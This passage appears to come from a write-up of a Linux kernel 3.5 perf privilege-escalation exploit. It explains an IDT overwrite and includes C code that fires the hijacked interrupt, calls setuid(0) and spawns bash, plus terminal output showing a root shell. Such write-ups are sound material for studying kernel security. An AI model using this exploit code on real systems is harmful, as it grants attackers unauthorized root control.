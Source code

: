 After calling a trigger() function the vulnerability has been exploited, the kernel structures overwritten and prepared for the privilege escalation. 

### Privilege escalation

The IDT structure has been overwritten. It is now ready to trigger an interrupt with a number of the IDT[x] element. Kernel will execute the code that the handler points to. This is the payload that will overwrite privileges to 0.  

```c
switch (int_n) {
case 3:
	asm volatile("int $0x03");
	break;
case 4:
	asm volatile("int $0x04");
	break;
case 0x80:
	asm volatile("int $0x80");
}

assert(!setuid(0));
return execl("/bin/bash", "-sh", NULL);
```

setuid(0) is called to finalise the privilege escalation process. As a last step bash is invoked with root privileges. 

```bash
x@ubuntu:~$ uname -a
Linux ubuntu 3.5.0-23-generic #35~precise1-Ubuntu SMP Fri Jan 25 17:13:26 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
x@ubuntu:~$ ./perf 2
IDT addr = 0xffffffff81dd6000
code = 82fffc00

Using int = 4 with offset = -49077
-sh-4.2#
```

memory view:  

```
                   +-------------------------+ 0xffffffffffffffff
                   |                         |
                  ++-------------------------++
int 0x04 +------> | IDT[4]|-----|             |
                  ++-------------------------++0xffffffff81dd6000
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                 +-----------------------------+  0x00007fffffffffff
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                   |            |            |
                m ++-------------------------++ 0x1790000000
                a |             |             |
                p |             |             |
                  ++-------------------------++ 0x1780000000
                   |            |            |
                   |            |            |
```